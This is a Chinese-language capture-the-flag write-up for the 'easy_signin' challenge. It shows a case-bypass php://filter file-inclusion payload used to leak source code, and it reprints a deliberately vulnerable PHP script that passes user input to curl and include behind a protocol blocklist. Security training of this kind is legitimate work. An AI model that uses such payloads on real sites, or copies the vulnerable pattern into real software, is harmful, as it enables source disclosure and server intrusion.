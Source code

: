 ### easy_signin

进入页面直接就`403`了，尝试`dirsearch`扫描一下

进入到`login.htm`l页面，看到源码有一个`/api.js`，给出的路径👇

```html
/api/sys/urlcode.php?url=
```

尝试进行文件包含，过滤了`php://`，但是注意了，PHP是大小写不敏感的，可以通过大写绕过

```html
/api/sys/urlcode.php?url=Php://filter/convert.base64-encode/resource=/var/www/html/api/sys/urlcode.php
```

`Base64`解密后，得到源码

```php
<?php
error_reporting(0);

function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_REQUEST['url'];
if($url){

    $forbidden_protocols = ['ftp://', 'php://', 'zlib://', 'data://', 'glob://', 'phar://', 'ssh2://', 'rar://', 'ogg://', 'expect://'];
    $protocol_block = false;
    foreach ($forbidden_protocols as $proto) {
        if (strpos($url, $proto) === 0) {  
            $protocol_block = true;
            break;
        }
    }
    $log_block = strpos($url, '.log') !== false;  
    
    if ($protocol_block) {
        echo "禁止访问：不允许使用 {$proto} 协议";
    } elseif ($log_block) {
        echo "禁止访问：URL 包含 .log";
    } elseif (strpos($url, 'login.php') !== false || strpos($url, 'dashboard.php') !== false || strpos($url, '327a6c4304ad5938eaf0efb6cc3e53dc.php') !== false) {
        echo "看不见哦";
    } else {
        echo "<b>".$url." 的快照如下：</b><br><br>";
        echo "<pre>";
        curl($url);
        include($url);
        echo "</pre>";
    }
}
?>
```
